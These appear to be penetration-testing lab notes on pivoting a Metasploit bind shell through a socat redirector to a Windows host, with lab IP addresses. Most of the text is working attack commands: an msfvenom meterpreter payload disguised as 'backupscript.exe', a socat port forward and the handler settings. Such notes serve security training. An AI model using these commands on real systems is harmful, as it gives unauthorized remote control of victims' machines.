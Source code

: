 
Bind shells work in the opposite order of reverse shells

>[!tldr]  In the case of bind shells....
>1) The Windows server will start a listener and bind to a particular port. 
>2) We can create a bind shell payload for Windows and execute it on the Windows host. 
>3) At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.


#### Create Windows Payload
```go
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```


#### Starting Socat Bind Shell Listener
```go
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```


Start the Metasploit bind handler. The bind handler will be configured to connect to socat's listener on port 8080 on the Ubuntu server.
```go
use exploit/multi/handler
```

```go
set payload windows/x64/meterpreter/bind_tcp
```

```go
set RHOST 10.129.202.64
```

```go
set LPORT 8080
```

```go
run
```

